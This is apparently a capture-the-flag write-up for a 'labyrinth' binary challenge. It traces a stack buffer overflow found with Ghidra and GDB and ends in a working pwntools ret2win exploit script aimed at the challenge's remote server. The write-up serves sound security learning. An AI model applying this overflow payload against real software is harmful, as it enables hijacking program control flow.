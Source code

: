 Description: 
You find yourself trapped in a mysterious labyrinth, with only one chance to escape. Choose the correct door wisely, for the wrong choice could have deadly consequences.


```
cat labyrinth
```
  - found string that shows choosing door 069 leads to next stage
```
file labyrinth
```
  - 64 bit ELF executable program

Connected to labyrinth challenge
	
  - Selected door 069
	
  - Next prompt: "You are heading to open the door but you suddenly see something on the wall: 'Fly like a bird and be free!' Would you like to change the door you chose?" > tried inputting each of the 100 doors > returns "Failed to escape!"

Installed Ghidra (reverse engineering tool to get source code of program)
	
  - found main and escape_plan functions in source code
	
  - main function does not call escape_plan at any point
	
  - 2nd prompt in program uses fgets() function with a 0x44 buffer size

Found vulnerability to buffer overflow attack 

REF: https://www.youtube.com/watch?v=eg0gULifHFI

 
 - explains how to perform a buffer overflow attack on x64 program
	
  - setup GEF GDB tools in Linux

```
gdb ./labyrinth
```
- created a pattern string and found the offset for escape_plan() function at 56 characters

- p escape_plan (memory address: 0x401255)

```
python -c 'print("A"*56 + "\x55\x12\x40\x00\x00\x00\x00\x00")'
```

started up gdb again for labyrinth

- tried manually entering buffer overflow input into program

- RIP memory address changed to 0x7fff000a4055

RIP memory address not pointing to the exact memory address of escape_plan function

REF: https://mregraoncyber.com/rop-emporium-writeup-ret2win/

Step 7 explains extra step that is needed to perform buffer overflow attack on x64 programs
	
 - need to add RET address to buffer with padding and escape_plan address
  
solve.py:

```
from pwn import *

r = remote("104.248.169.177", 31999)
escape = 0x401255
ret = 0x401602

payload = b'A'*56 + p64(ret) + p64(escape)
print(payload)

r.sendlineafter(">>", b'69')
r.sendlineafter(">>", payload)

print(r.recvall())
```

RETRIEVED FLAG 
